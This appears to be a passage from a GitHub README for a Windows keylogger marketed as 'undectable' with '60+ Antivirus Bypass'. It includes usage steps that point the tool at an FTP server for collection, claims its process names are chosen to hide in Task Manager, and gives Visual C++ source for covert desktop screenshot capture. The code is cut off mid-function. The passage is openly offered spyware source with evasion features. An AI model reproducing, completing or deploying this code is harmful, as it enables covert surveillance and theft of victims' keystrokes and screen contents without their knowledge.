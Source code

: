 These names Given for unrecognisable in Task Manager.

### How to Use ?

1. Start FTP Server on This Ip Address 192.168.8.2:2121
2. and Start both program and Enjoy!!!!

### Undectable keylogger (60+ Antivirus Bypass)

![ScreenShot](virustotal.PNG)

### Visual C++ Source Code

#### Capture Screenshot

```
void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);//create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);//copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;//get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());//sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder); //save in jpeg format
	SelectObject(dc2,holdbitmap);//Release Objects
	DeleteObject(dc2);
```